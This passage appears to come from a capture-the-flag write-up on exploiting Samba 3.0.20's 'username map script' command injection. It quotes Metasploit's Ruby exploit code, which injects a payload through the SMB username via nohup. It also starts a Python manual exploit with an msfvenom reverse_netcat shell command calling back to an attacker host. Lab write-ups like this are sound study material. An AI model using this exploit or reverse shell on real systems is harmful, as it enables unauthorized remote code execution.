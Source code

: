 Same bad luck, this exploit was completed but it could not get the reverse shell from inside of the machine

### Samba 3.0.20 manual exploit

From the ```'Username' map script' Command Execution``` exploit, we can clearly see that this exploit is being triggered by ```nohup```

The nohup command executes another program specified as its argument and ignores all SIGHUP (hangup) signals. SIGHUP is a signal that is sent to a process when its controlling terminal is closed

This exploit requires ```no authentication``` on SMB and it uses ```username``` to pass payloads via ```nohup``` in it

The exploit section in ```ruby``` will be like ,

```c
def exploit

		connect

		# lol?
		username = "/=`nohup " + payload.encoded + "`"
		begin
			simple.client.negotiate(false)
			simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
			# nothing, it either worked or it didn't ;)
		end

		handler
	end
```

Searching for a short and sweet exploit, I found [this](https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851) 

The manual exploit for Samba 3.0.20 will be like,

```c
#!/usr/bin/python

from smb.SMBConnection import SMBConnection
import random, string
from smb import smb_structs
smb_structs.SUPPORT_SMB2 = False
import sys


# Just a python version of a very simple Samba exploit. 
# It doesn't have to be pretty because the shellcode is executed
# in the username field. 

# Based off this Metasploit module - https://www.exploit-db.com/exploits/16320/ 

# Configured SMB connection options with info from here:
# https://pythonhosted.org/pysmb/api/smb_SMBConnection.html

# Use the commandline argument as the target: 
if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()


# Shellcode: 
# msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.0.35 LPORT=9999 -f python
```
